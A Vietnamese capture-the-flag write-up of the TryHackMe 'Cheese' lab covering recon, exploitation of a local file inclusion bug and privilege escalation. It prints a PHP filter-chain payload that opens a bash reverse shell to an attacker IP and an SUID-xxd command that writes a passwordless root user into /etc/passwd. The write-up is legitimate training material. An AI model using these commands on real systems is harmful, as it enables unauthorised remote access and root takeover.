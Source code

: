 <div align="center">
    <h1>🧀 TryHackMe Cheese CTF Writeup 🐭</h1>
</div>

## 🚀 1. Khởi động taget

![Start taget](Images/1.png)

## 🔍 2. Recon

- Taget là một trang web `The Cheese Shop`

![Hoangdeptrai](Images/2.png)

- Sử dụng `feroxbuster` quét các file, thư mục ẩn của mục tiêu:

```bash
feroxbuster -u http://10.10.140.148/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,html,config
```

![Hoangdeptrai](Images/3.png)

- Phát hiện file có tên `messages.html` có dấu hiệu có thể khai thác

![Hoangdeptrai](Images/4.png)

## 🔑 3. Khai thác trang web

- Chèn một số payload phát hiện trang này có thể chứa lỗ hổng `Local File Inclusion` (LFI)

![Hoangdeptrai](Images/5.png)

- Sử dụng tool `php_filter_chain_generator` để tạo payload khai thác RCE dựa trên lỗ hổng này: https://github.com/synacktiv/php_filter_chain_generator

- Sử dụng lệnh sau, kết hợp với ip máy tấn công: `10.8.31.209` để tạo payload: 
```bash 
python3 php_filter_chain_generator.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/ 10.8.31.209/4444 0>&1\" '); ?>" | grep "^php" > payload2.txt
```
- Payload được lưu trữ trong file `payload2.txt`, chèn payload vào trường chứa lỗ hổng LFI.

![Hoangdeptrai](Images/6.png)

- Thêm thành công, nghe cổng `4444`, nhận được reverse shell:

![Hoangdeptrai](Images/7.png)

- Tuy nhiên khi thử đọc file `user.txt` thì quyền truy cập bị từ chối, vì vậy cần tạo ssh key với mục đích truy cập từ xa tới user `comte` để có quyền độc file user:

![Hoangdeptrai](Images/8.png)

![Hoangdeptrai](Images/9.png)

- Thêm SSH key vào máy mục tiêu.

![Hoangdeptrai](Images/10.png)

- SSH thành công tới user `comte`

![Hoangdeptrai](Images/11.png)

- Đọc file `user.txt` nhận được flag 🚩

![Hoangdeptrai](Images/12.png)

![Hoangdeptrai](Images/13.png)

## ⚠️ 4. Leo quyền lên root shell

- Dùng lệnh `sudo -l` để kiểm tra quyền thực thi các lệnh sau mà không cần nhập mật khẩu.

![Hoangdeptrai](Images/14.png)

- Trong đó có thể kiểm soát `exploit.timer`, điều này mở ra cơ hội chèn một `service` độc hại
- Nội dung của `exploit.timer` có dạng như sau:

![Hoangdeptrai](Images/15.png)

- `exploit.timer` là một `systemd timer`, có thể chạy một service (`exploit.service`) theo thời gian định sẵn. Nội dung của `exploit.service`:

![Hoangdeptrai](Images/16.png)

- Service này tạo ra một bản sao của `xxd` trong `opt` và cấp cho nó quyền `suid` và quyền `execute`.

- Lợi dụng điều đó, sử dụng câu lệnh sau:
```bash
echo "hoang: :0:0:hoang:/root:/bin/bash" | xxd | /opt/xxd -r - "/etc/passwd" 
```
- Lệnh này tạo thêm một user tên “hoang” vào `etc/password`

![Hoangdeptrai](Images/17.png)

- Sau đó đăng nhập vào user, user này thuộc group id root, ta có thể đọc được file `root.txt`

![Hoangdeptrai](Images/18.png)

![Hoangdeptrai](Images/19.png)

=> Hoàn thành bài lab 🔥🔥🔥

![Hoangdeptrai](Images/20.png)
